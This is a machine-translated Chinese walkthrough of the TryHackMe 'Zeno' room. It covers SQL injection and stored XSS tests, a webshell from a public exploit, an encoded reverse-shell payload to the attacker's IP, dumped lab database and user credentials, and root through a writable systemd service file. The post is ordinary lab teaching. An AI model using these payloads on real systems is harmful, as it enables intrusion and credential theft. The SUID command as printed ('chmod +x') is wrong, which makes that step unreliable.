










# Zeno — THM Writeup(滥用服务文件错误配置)

> 原文：<https://infosecwriteups.com/zeno-thm-writeup-abusing-service-file-misconfigurations-3dd8ac94be24?source=collection_archive---------1----------------------->

大家好，今天我们要做来自 TryHackMe 的 [Zeno](https://tryhackme.com/room/zeno) 。它被评为中等，描述说“你有伟大的斯多葛派哲学家芝诺一样的耐心吗？试试看！”

# 端口扫描

nmap 出现了一些问题，因此它无法显示所有打开的端口。史茹建议我使用 Rustscan。谢谢史茹·:D



找到几个更多的端口。现在，我重新对这些端口进行了 nmap 扫描:



我们在端口 12340 上有一个 web 服务器。让我们检查一下。

# 网络服务器

在用不同的单词表破坏了一些目录后，我发现这些是有趣的:

```
/index.html (Status: 200)
/rms (Status: 301)
```

`/index.html`不返回任何有用的东西。 `/rms` 是餐厅管理系统。在后台打开 burp 代理浏览网站后，我发现了一些参数化的请求。我们可以在删除订单查询中做 SQLi:`http://10.10.200.163:12340/rms/delete-order.php?id=0' or 1-- -`

# sqlmap

我们有基于时间的 SQLi。运行 sqlmap 一段时间后，我收集了以下信息:

*   数据库名称:dbrms
*   找到一些表格:



我在数据库里找不到任何有用的东西。而且要花很多时间。所以让我们看看是否还有其他漏洞。网站显示用户名(名字)。我试过查 XSS 和 SSTI。我找不到 SSTI，但发现它储存了 XSS。将有效载荷设置为`${{4*4}}`以同时检查 XSS 和 SSTI。



存储 XSS。我们能偷饼干吗？

看看能不能偷其他用户的 cookies。创建一个新帐户，并在名字字段中上传一个 cookie stealer 有效负载。



我用打嗝重复这个

现在我用这个账号登录，在网站上做了一些动作(比如发评论，买东西等等)，希望能被其他用户点击，这样我就可以抓取他们的 cookies 了。但是，即使等了几分钟，我也没有得到任何结果。所以可以肯定地说这是一条死胡同。让我们检查一下其他漏洞。

# 搜索漏洞

我在 searchsploit 里搜索餐厅管理系统漏洞。



有一个 RCE 漏洞可用。运行之后，我们在`[http://ip:12340/rms/images/reverse-shell.php](http://ip:12340/rms/images/reverse-shell.php)`上传了一个 webshell。使用`?cmd= command`执行命令。

以 URL 编码形式使用此有效负载:
`echo L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xMC4xNC4xNC43OC84MCAwPiYxCg==|base64 -d|bash`

这将运行以下反向 shell:

```
/bin/sh -i >& /dev/tcp/10.14.14.78/80 0>&1
```

我用打嗝解码器对有效载荷进行 url 编码。最终有效载荷是:

```
%65%63%68%6f%20%4c%32%4a%70%62%69%39%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4e%43%34%78%4e%43%34%33%4f%43%38%34%4d%43%41%77%50%69%59%78%43%67%3d%3d%7c%62%61%73%65%36%34%20%2d%64%7c%62%61%73%68
```

在攻击者机器的端口 80 上运行一个监听器，并执行有效负载。

# 找到一个弹壳。现在怎么办？

得到一个 shell 后，我发现了一个包含密码的配置文件`/var/www/html/rms/connection/config.php`。

```
bash-4.2$ pwd
/var/www/html/rms/connection
bash-4.2$ cat config.php 
<?php
    define('DB_HOST', 'localhost');
    define('DB_USER', 'root');
    define('DB_PASSWORD', 'veerUffIrangUfcubyig');
    define('DB_DATABASE', 'dbrms');
    define('APP_NAME', 'Pathfinder Hotel');
    error_reporting(1);
?>
```

# Mysql 数据库枚举

在数据库中，有一个名为`members`的表。它包含一些密码散列和答案散列。我破解了几个，除了用户`edward`的。有趣的是，还有一个名为 edward 的系统用户。

以下是破解的哈希和密码:

```
Username|Email|Password|Security Answer
[Stephen|omolewastephen@gmail.com](mailto:Stephen|omolewastephen@gmail.com)|1234|deborah
[john|jsmith@sample.com](mailto:john|jsmith@sample.com)|jsmith123|middlename
[edward|edward@zeno.com](mailto:edward|edward@zeno.com)|COULD NOT CRACK|COULD NOT CRACK
```

我在爱德华的账户上试了试这些密码，但无法登录。

# 林豌豆

现在让我们运行 Linpeas



我们在`/etc/systemd/system/zeno-monitoring.service`上有写权限，也发现了新的凭证。

```
username=**zeno**,password=**FrobjoodAdkoonceanJa**
```

以当前用户的身份用这个密码尝试了`sudo -l`，但是没有成功。现在让我们尝试编辑服务文件。

# 根的服务文件配置错误

让我们在`/bin/bash`上添加 SUID 位，以便于查看。将 ExecStart 更改为如下所示:

```
ExecStart=/usr/bin/chmod +x /bin/bash
```



我们只需要更改 ExecStart 命令

现在，当这项服务再次启动时，我们将有一个 SUID `/bin/bash`。如果我们能以某种方式重新启动它，我们就能做到这一点。但是作为低特权用户，我们没有权限这样做。另一种方法是我们可以重启系统。我试图重新启动系统，但不能。我们需要 root 权限才能重新启动。

让我们试试之前在用户`edward`上找到的密码(`FrobjoodAdkoonceanJa`)。我们可以以 edward 的身份成功登录🎉。

检查 edward 的`sudo -l`权限，我们看到他可以重启系统。



用户 edward 可以重启系统

用`sudo /usr/sbin/reboot`重启机器，现在当系统完全重启后，通过 ssh 以 edward 的身份登录。我们现在有了一个 SUID。使用它将权限提升到根用户

****

**根:p**

**芝诺现在是 rooted✨**

**希望很容易坚持到底。下次见。
保重:)**

**在推特上找我: [@manash036](https://twitter.com/manash036)**